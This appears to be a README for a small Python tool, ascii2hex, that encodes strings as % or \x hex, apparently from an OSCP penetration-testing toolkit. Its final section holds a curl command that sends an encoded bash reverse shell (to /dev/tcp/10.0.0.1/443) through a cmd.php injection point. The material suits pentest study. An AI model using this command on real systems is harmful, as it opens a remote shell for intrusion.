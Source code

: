 # ascii2hex
Simple python code for convert ASCII string to HEX string

# how to run
That python code allow to convert ASCII string to hex in 2 type format, "%" or "\x", or other ones you need.
You can select the format by using -p flag and specefie the pattern.

# example
```
└─$ python3 ./ascii2hex.py -s '<? phpinfo() ?>'

%3c%3f%20%70%68%70%69%6e%66%6f%28%29%20%3f%3e
```
```
└─$ python3 ./ascii2hex.py -s '<? phpinfo() ?>' -p \\x

\x3c\x3f\x20\x70\x68\x70\x69\x6e\x66\x6f\x28\x29\x20\x3f\x3e
```
# tool note
this is part from my OSCP tools, the idea it so have the ability to run reverse shell from injection point over php file, since the url can't using space value we must convert each space to hex value, so that tool do that for us.
this tool is vulable since if we can inject code to some url and we need to insert more complicated request to the injection point (paramether) we can use ascii2hex:
```
curl "http://192.168.183.91/cmd.php?cmd=$(ascii2hex "/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/443 0>&1'")"                                        
```
